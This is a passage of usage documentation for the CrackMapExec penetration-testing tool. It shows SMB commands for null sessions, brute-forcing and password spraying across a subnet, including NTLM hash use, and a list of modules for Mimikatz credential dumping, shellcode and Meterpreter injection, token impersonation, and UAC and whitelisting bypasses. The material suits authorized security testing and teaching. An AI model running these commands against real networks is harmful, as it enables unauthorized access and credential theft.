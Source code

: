 Examples:

crackmapexec smb <target(s)> -u '' -p ''

Brute Forcing & Password Spraying

We can do this by pointing crackmapexec at the subnet and passing the creds:

SMB Example

crackmapexec 10.0.2.0/24 -u ‘admin’ -p ‘P@ssw0rd' 

All protocols support brute-forcing and password spraying. For details on brute-forcing/password spraying with a specific protocol, see the appropriate wiki section.

By specifying a file or multiple values CME will automatically brute-force logins for all targets using the specified protocol:

Examples:

crackmapexec <protocol> <target(s)> -u username1 -p password1 password2

crackmapexec <protocol> <target(s)> -u username1 username2 -p password1

crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords

crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes

Modules

As of v3.1, the way modules are loaded and used has changed in an effort to make CME more portable and to enable it to be packaged.

With v4.0, each protocol can now have it’s own set of modules (fun fun fun!)

crackmapexec -L
[*] empire_exec          Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
[*] shellinject          Downloads the specified raw shellcode and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
[*] rundll32_exec        Executes a command using rundll32 and Windows's native javascript interpreter
[*] com_exec             Executes a command using a COM scriptlet to bypass whitelisting
[*] tokenrider           Allows for automatic token enumeration, impersonation and mass lateral spread using privileges instead of dumped credentials
[*] mimikatz             Executes PowerSploit's Invoke-Mimikatz.ps1 script
[*] tokens               Enumerates available tokens using Powersploit's Invoke-TokenManipulation
[*] peinject             Downloads the specified DLL/EXE and injects it into memory using PowerSploit's Invoke-ReflectivePEInjection.ps1 script
[*] powerview            Wrapper for PowerView's functions
[*] mimikittenz          Executes Mimikittenz
[*] enum_chrome          Uses Powersploit's Invoke-Mimikatz.ps1 script to decrypt saved Chrome passwords
[*] metinject            Downloads the Meterpreter stager and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
[*] eventvwr_bypass      Executes a command using the eventvwr.exe fileless UAC bypass

Using a module
